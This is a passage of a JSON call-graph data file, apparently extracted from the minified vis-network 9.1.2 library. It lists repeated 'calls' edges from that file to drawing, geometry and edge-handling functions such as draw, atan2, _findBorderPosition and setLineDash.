"static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getViaNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawDashedLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_pointOnCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addColorStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addColorStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getDistanceToEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_pointOnCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setStrokeDashed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setStrokeDashed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getDistanceToLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "quadraticCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "positionBezierNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setupSupportNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "positionBezierNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "positionBezierNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bezierCurve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getCircleData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionBezier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getDistanceToBezierEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bezierCurve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionBezier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getDistanceToBezierEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getDistanceToLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bezierCurve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findBorderPositionBezier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getDistanceToBezierEdge2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getDistanceToLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateEdgeType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setInteractionWidths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "chooser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "attachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "attachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "detachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "detachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "detachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "detachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "customScalingFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setInteractionWidths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hoverWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "selectionWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getViaNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getViaNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getArrowData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getArrowData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getArrowData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawArrowHead"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawArrowHead"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawArrowHead"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_pointOnCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", 